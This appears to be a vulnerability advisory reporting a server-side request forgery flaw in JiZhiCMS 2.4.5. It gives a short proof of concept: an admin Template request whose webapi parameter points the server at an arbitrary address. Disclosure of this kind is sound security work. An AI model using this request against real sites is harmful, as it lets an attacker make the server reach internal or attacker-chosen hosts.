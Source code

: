 # JiZhiCMS is vulnerable to Server-side request forgery (SSRF)
## Description
    JiZhiCMS 2.4.5 is vulnerable to Server-side request forgery (SSRF)
## Vendor Homepage
    https://github.com/Cherry-toto/jizhicms,https://www.jizhicms.cn/

## Author
    HuBenLab
## Proof of Concept
The problem is in the Index function in TemplateController.php, we can control the set and webapi parameters can be customized to add an address and then visit Template/index can be triggered.

![image-20230525140835032](./img/image-20230525140835032.png)

Use the following steps

1. Clear the cache in the system settings first

2. Add webapi

```
index.php/admins/Template/index?webapi=http://ip&set=1
```

3. Visit the template homepage

```
index.php/admins/Template/index
```

After that it will receive the request.

![image-20230525141123703](./img/image-20230525141123703.png)
